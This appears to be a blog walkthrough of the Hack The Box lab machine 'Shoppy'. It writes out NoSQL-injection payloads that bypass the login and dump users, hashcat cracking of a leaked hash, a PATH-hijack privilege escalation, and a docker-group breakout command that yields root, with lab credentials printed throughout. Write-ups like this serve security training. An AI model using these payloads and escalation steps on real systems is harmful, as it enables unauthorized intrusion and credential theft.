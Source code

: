 ```yaml
---
title: Shoppy
date: 2022-12-31 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [nosql, mongodb, hashcat, john, ghidra, PATH, docket, DNS]
---
```


Initial nmap scans gve us a few ports and an http server on 80 that needs to be setup in hosts to access. http://shoppy.htb

Running `feroxbuster` we find a `/login` on port 80

Check for subdomains `wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://shoppy.htb' -H "Host: FUZZ.shoppy.htb" --hc 301`

we find `mattermost` add it to the /etc/hosts

We can bypass the login screen using nosql injection

- `user=' || 1==1%00&pass=' || 1==1%00`

Then searching for users we can use the following to dump all users

- `http://shoppy.htb/admin/search-users?username=admin'||'1==1`

```
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```

- `hashcat -m 0 shoppy.htb.hashes.josh /usr/share/wordlists/rockyou.txt`

and we get joshs pass: 6ebcea65320589ca4f2f1ce039975995:remembermethisway

We can login the the mattermost subdomain with their credentials.

Checking the recent mentions we have a note from jaeger

```
or the deploy machine, you can create an account with these creds :
username: jaeger
password: Sh0ppyBest@pp!
And deploy on it. 
```

also 

```
josh
1:25 AM

Oh I forgot to tell you, that we're going to use docker for the deployment, so I will add it to the first deploy 
```

We can login via ssh with jaeger creds. and get user.txt flag

Checking sudo -l we can run the following command `sudo -u deploy /home/deploy/password-manager` which 

basically looks for creds then when proper creds inserted executes `cat /home/deploy/creds.txt`. now this isnt using the full path so we should be ablt to use PATH escalation. Create a cat file in /tmp with bash -i then add /tmp to PATH. export PATH=/tmp:$PATH then using ghidra we find the password for the manager is Sample. Running the file we get deploy creds.


```
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

su to deply

checkng id and as expected we are inside a docker container and since we now have a user that belongs to the docker group we can escape. https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

- `find / -name docker.sock 2>/dev/null`
- `docker run -it -v /:/host/ alpine chroot /host/ bash`

and we're root